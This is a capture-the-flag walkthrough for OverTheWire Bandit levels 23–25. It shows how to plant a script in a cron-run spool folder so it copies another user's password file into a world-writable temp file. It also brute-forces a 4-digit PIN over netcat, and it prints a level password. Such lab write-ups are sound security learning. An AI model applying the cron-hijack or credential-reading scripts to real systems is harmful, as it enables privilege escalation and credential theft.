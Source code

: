 If you cat the cronjob that is supposed to run as bandit24 you will see that it is saving bandit24 as a variable then changes directory to '/var/spool/$myname(which is the bandit24)/foo',  then there is a for loop that negates any file or folder starting with '.' or '..'; it checks if the owner is us then executes the remaining file for 1 minute, kills the process and removes the file.

So let's make a script that will be the remaining executed file in foo folder, __make sure you give proper permissions to make sure another user can write into the files__.


```bash 
#!/bin/bash 

cat /etc/bandit_pass/bandit24 > /tmp/{use mktemp -d}/pass.txt
```

```bash
touch script.sh && chmod 777 script.sh
touch pass.txt && chmod 777 pass.txt
chmod 777 /tmp/(use mktemp -d) 
cp script.sh /var/spool/bandit24/foo/script.sh
```

After 1 minute if you cat tha pass.txt file you will see the password.

![image](/script.png)


### bandit24
username: bandit24  
password: **gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8**


A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time.


With this one i used crunch to generate all possible 4 digit numbers and then used netcat to connect to the port and post the password and the pincode to access the next level password.

```bash 
crunch 4 4 0000 9999 -o pincode.txt

nc localhost 30002 < pincode.txt
```

Crunch is not installed in the bandit, so i resorted to bash script instead.

```bash
#!/bin/bash

# Generate all possible 4-digit numbers and pass them to nc
nc localhost 30002 < <(for i in $(seq -w 0 9999); do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done)
```

if you run the sciprt eventually it will run a correct pincode and spit out the password.

